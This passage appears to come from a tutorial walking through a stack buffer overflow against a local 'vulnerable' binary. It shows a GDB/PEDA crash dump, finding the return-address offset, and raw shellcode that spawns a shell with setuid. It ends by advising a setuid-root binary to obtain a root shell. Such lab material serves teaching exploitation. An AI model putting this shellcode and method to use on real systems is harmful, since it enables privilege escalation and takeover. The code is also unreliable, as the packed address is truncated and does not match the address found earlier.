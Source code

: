 ```
0040| 0x7fffffffdb40 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA"...)
0048| 0x7fffffffdb48 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%S"...)
0056| 0x7fffffffdb50 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%"...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004005ff in vuln ()

```

The cyclic pattern can be seen on the stack. The offset is then easily found using PEDA:

```
gdp-peda$ x/wx $rsp
0x7fffffffdb18:	0x41413741


gdp-peda$ pattern_offsett 0x41413741
1094793025 found at offset: 104
```

PEDA determined that the offset of RIP is at 104. The 'exploit.py' file must be updated to accomodate this offset.

```
buf += "A"*104			# offset to RIP
```

### Shellcode and getenvaddr

After determining and verifying the offer to RIP, we must override RIP to point to our malicious shellcode. We store shellcode on the stack via an environmental variable and find its address on the stack using getenvaddr. 

```
$ export PWN=`python -c 'print "\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05"'`

$ ./getenvaddr PWN ./vulnerable
PWN will be at 0x7fffffffed23
```

We now know the address of the shellcode on the stack, now we need to update the exploit.

```
buf += pack("<Q", 0x7fffffffed8)
```

Also, remember to change the permission of vulnerable to set UID to root to obtain a root shell.
